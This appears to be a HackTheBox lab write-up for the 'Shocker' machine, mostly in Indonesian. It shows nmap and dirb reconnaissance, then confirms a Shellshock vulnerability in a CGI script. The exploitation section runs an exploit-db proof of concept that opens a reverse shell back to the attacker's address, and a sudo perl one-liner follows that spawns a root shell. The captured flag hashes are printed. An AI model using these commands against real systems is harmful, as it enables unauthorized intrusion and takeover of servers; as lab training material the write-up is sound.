 ```yaml
---
layout: post
title: "HTB Shocker Writeup"
description: "HTB Shocker Writeup"
comments: true
keywords: "HackTheBox"
---
```

_Perl, Web, Injection_

# NMAP 


```
#   Nmap 7.91 scan initiated Tue Jul  6 11:17:37 2021 as: nmap -A -v -oN nmap.txt 10.10.10.56
Increasing send delay for 10.10.10.56 from 0 to 5 due to 60 out of 199 dropped probes since last increase.
Nmap scan report for 10.10.10.56
Host is up (0.034s latency). 
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 4.9 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 4.2 (95%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.098 days (since Tue Jul  6 08:56:35 2021)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   32.29 ms 10.10.14.1
2   32.37 ms 10.10.10.56

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul  6 11:18:09 2021 -- 1 IP address (1 host up) scanned in 31.93 seconds
```
# DIRB
```
┌──(kali㉿kali)-[~/htb/shocker]
└─$ dirb http://10.10.10.56:80/ /usr/share/seclists/Discovery/Web-Content/common.txt                          127 ⨯

-----------------
DIRB v2.22      
By The Dark Raver
-----------------

START_TIME: Wed Jul  7 04:20:46 2021
URL_BASE: http://10.10.10.56:80/
WORDLIST_FILES: /usr/share/seclists/Discovery/Web-Content/common.txt

-----------------

GENERATED WORDS: 4685                                                          

---- Scanning URL: http://10.10.10.56:80/ ----
+ http://10.10.10.56:80/cgi-bin/ (CODE:403|SIZE:294)                                                               
+ http://10.10.10.56:80/index.html (CODE:200|SIZE:137)                                                             
+ http://10.10.10.56:80/server-status (CODE:403|SIZE:299)                                                          
                                                                                                                   
-----------------
END_TIME: Wed Jul  7 04:23:20 2021
DOWNLOADED: 4685 - FOUND: 3
```
Ada folder cgi-bin yang mencurigakan. Lakukan lagi scan pada /cgi-bin 

Ada file user.sh, jika dibuka di browser bisa didownload dan berikut adalah isinya
```
Content-Type: text/plain

Just an uptime test script

 11:34:00 up  2:40,  0 users,  load average: 0.02, 0.06, 0.01
```
Isinya ternyata mirip dengan command uptime biasa di linux.  

# VULNERABILITY - SHELLSHOCK
Selain itu tidak ada informasi lagi yang bisa didapatkan. Lalu saya berpikir sepertinya vulnerabilitynya memang di apachenya. Setelah googling "apache cgi-bin vuln" saya menemukan vulnerability ini : https://www.exploit-db.com/exploits/34900
 
"Shellshock, also known as Bashdoor,[1] is a family of security bugs[2] in the Unix Bash shell, the first of which was disclosed on 24 September 2014. Shellshock could enable an attacker to cause Bash to execute arbitrary commands and gain unauthorized access[3] to many Internet-facing services, such as web servers, that use Bash to process requests. " -wikipedia
  
Untuk memverifikasi bahwa ini memang shellshock gw coba jalanin NSE script nmap untuk meriksa:
 ```
# Nmap 7.91 scan initiated Wed Jul  7 07:25:53 2021 as: nmap -A -v --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls -oN 2nmap.txt 10.10.10.56
Nmap scan report for 10.10.10.56
Host is up (0.070s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       http://seclists.org/oss-sec/2014/q3/685
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|_      http://www.openwall.com/lists/oss-security/2014/09/24/10
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul  7 07:26:06 2021 -- 1 IP address (1 host up) scanned in 12.37 seconds
```             

Ternyata memang vulnerable ke shellshock. Selanjutnya mari kita exploit.                                                                                    
 
# EXPLOITATION - SHELLSHOCK
Gunakan poc di https://www.exploit-db.com/exploits/34900, lalu jalankan dengan comand berikut : 
 ```
┌──(kali㉿kali)-[~/htb/shocker]
└─$ ./exploit.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.26 lport=45 pages=/cgi-bin/user.sh        1 ⨯ 1 ⚙
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/user.sh
[!] Successfully exploited
[!] Incoming connection from 10.10.10.56
10.10.10.56> ls
user.sh

10.10.10.56> whoami
Shelly
```

# PRIVESC
```
10.10.10.56> sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl

10.10.10.56> 
```
Ketika diperiksa dengan sudo -l ternyata perl bisa dijalankan sebagai root.  Spawn bash menggunakan perl dengan perintah berikut: 
```
10.10.10.56> sudo perl -e 'exec "/bin/sh";'
10.10.10.56> whoami
root
```
# FLAGS
Setelah mendapat root kedua flag bisa didapatkan dengan mudah
 
## User  flag : 
10.10.10.56> cat /home/shelly/user.txt
d967e5805006ca1e927d9d0188e02215

## Root flag:
10.10.10.56> cat /root/root.txt
7724872cf757e82700af2ed2d08b257a  

---

